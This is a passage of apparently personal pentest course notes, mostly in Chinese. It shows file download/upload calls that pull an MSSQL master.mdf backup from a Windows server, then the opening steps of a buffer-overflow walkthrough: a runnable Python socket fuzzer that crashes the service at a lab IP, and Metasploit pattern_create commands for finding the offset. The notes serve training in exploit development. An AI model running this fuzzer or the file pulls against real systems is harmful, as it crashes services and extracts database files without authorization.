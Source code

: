 ```
client.download("filename in server", "\\PROGRA~1\\MICROS~1\\MSSQL1~1.SQL\\MSSQL\\BACKUP\\master.mdf", timeout=5)
client.upload("filename to upload", "/local/path/file", timeout=5)
```



## **Buffer Overflow**

这里没有什么新东西，只是与PEN200课程中解释的方法相同，加上我的注释。

### **1. Find the overflow:**

只要用大量的字符进行尝试，直到你得到崩溃，或者如果你是远程连接，则拒绝连接。

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.199.129"

port = 9999
timeout = 5
prefix = "GTER "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

![image-20221229153030399](C:\Users\PC\AppData\Roaming\Typora\typora-user-images\image-20221229153030399.png)

### **2. 找到偏移量:**

```
#常用
msf-pattern_create -l <lenth>
msf-pattern_create -l <arbitrarily large number> -s abcdefghijklmnopqrstuvwxyz,ABCDEF,0123456789


```
